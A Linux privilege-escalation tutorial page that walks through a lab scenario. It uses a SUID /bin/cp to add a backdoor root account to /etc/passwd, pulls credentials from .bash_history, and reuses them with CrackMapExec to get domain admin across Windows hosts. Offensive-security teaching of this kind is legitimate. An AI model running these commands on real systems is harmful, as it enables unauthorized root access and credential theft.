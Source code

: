 +++
title = "Linux PE"
weight = 3
+++

## 1. Escalation using SUID binary
One of the first things you should do with a non-root *nix account is check if there are any SUID binaries.
Search the entire */* directory.

`find / -perm -u=s 2>/dev/null`

```bash
/sbin/mount.cifs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/at
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/bin/ping6
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
/bin/mount
/bin/cp
```

Now don't immediatly get excited when you see these, many SUID binaries exist on *nix system by default and their 
exploitability has been thouroughly explored and discounted.  That said you should become familiar with ones that 
exist by default so you can quickly identify ones that stick out, such as **/bin/cp**!

`ls -lah /bin/cp`

```
-rwsr-sr-x 1 root root 148K Feb 18  2016 /bin/cp
```

### 1.1. One of the oldest tricks in the book
There are several ways to pull off this attack, essentially what we can do is leverage our SUID **cp** command 
to overwrite */etc/passwd* with a new version containing everything that was in the original file plus a backdoor 
root account that we control.

`cd /tmp`

* Make two copies of */etc/passwd* one to edit and one to restore after we're done.  We'll have to use cat because 
* if we use **cp** our files will be root owned and unusable for this attack.

`cat /etc/passwd > passwd-old`

`cat /etc/passwd > passwd-new`

* On your own Ubuntu machine, create a valid password hash using openssl

`openssl passwd -1 -salt realhax R3alH@x!`

```
$1$realhax$UFuaLnv22mE1WHpKYr/F30
```

* Use echo to insert a user record at the end of *passwd-new*

`echo 'realhax:$1$realhax$UFuaLnv22mE1WHpKYr/F30:0:0:root:/root:/bin/bash' >> passwd-new`

* Finnaly, use the SUID **/bin/cp** command to replace */etc/passwd* with *passwd-new*

`cp passwd-new /etc/passwd`

Now you should be able to SSH directly into this machine with whatever username and password you specified during 
your openssl command.

![](./linuxpost1.png)

## 2. Sensitive .dot files and .dot directories
Linux/UNIX .dot files are notorious for storing juicy secrets like usernames and passwords.
One solid post exploitation procedure is to cd into every users home directory and run `ls -lah` to reveal 
all of that users' .dot files and .dot directories.

```bash
total 40K
drwx------  6 root root 4.0K Apr  7 18:32 .
drwxr-xr-x 23 root root 4.0K Jan 26 08:41 ..
-rw-------  1 root root  464 Apr  7 12:09 .bash_history
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Apr  7 18:32 .cache
drwxr-xr-x  2 root root 4.0K Jan 28 12:53 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4.0K Apr  7 12:09 scripts
drwx------  2 root root 4.0K Jan 28 13:00 .ssh
-rw-------  1 root root  715 Apr  7 12:09 .viminfo
root@kepler-linsrv14:~# 
```

Right away you should be interested in the *.ssh* directory as it may contain an SSH private key which you could 
use to access additional hosts.

By far the most interesting .dot file in my humble opinion is *.bash_history*

`cat .bash_history`
```
cat .bash_history 
cat ~/.bash_history 
ls -lah
cd
cd /etc/
ls
grep net .
grep net *
cd
ls -lah
cd .ssh/
ls
ls -lah
cd ..
ls
mkdir scripts
cd scripts/
ls
vim checkdomain.sh
ls -lah
cd
clear
cd /etc/
cd network
ls
cat i
cat interfaces
cd
cd scripts/
ls
echo 'username:neil.degrasse' >> checkdomain.sh 
echo 'password:@mbrosia1543!_!' >> checkdomain.sh 
vim checkdomain.sh 
chmod 755 checkdomain.sh 
./checkdomain.sh 
rm checkdomain.sh 
ls -lah
ls -lah /bin/cp
exit
```

![](./linuxpost2.png)

Take a look at the *~/scripts* directory.  The root user appears to have since deleted the **checkdomain.sh** script
but it seems to have contained credentials at one point in time.  Based on the name of the script I would guess they 
are Active Directory credentials.  Let's try them with CrackMapExec.

First try them on a single machine to make sure they are valid.  If they work, try them on all your Windows 
targets to see what sort of access they have.

`cme smb hosts/windowxs.txt -u neil.degrasse -p '@mbrosia1543!_!'`

```bash
EINSTEIN-DC01    [*] Windows 10.0 Build 20348 x64 (name:EINSTEIN-DC01) (domain:Sciencerocks.local) (signing:True) (SMBv1:False)
EINSTEIN-DC01    [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
KEPLER-LINSRV14  [*] Windows 6.1 (name:KEPLER-LINSRV14) (domain:) (signing:False) (SMBv1:True)
FEYNMAN-WINSRV1  [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
HAWKINGWINSRV19  [*] Windows 10.0 Build 20348 x64 (name:HAWKINGWINSRV19) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
KEPLER-LINSRV14  [+] \neil.degrasse:@mbrosia1543!_! 
FEYNMAN-WINSRV1  [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
HAWKINGWINSRV19  [+] Sciencerocks.local\neil.degrasse:@mbrosia1543!_! (Pwn3d!)
```

Looks like these credentials have Domain Admin privileges!

![](./domainadmin1.png)
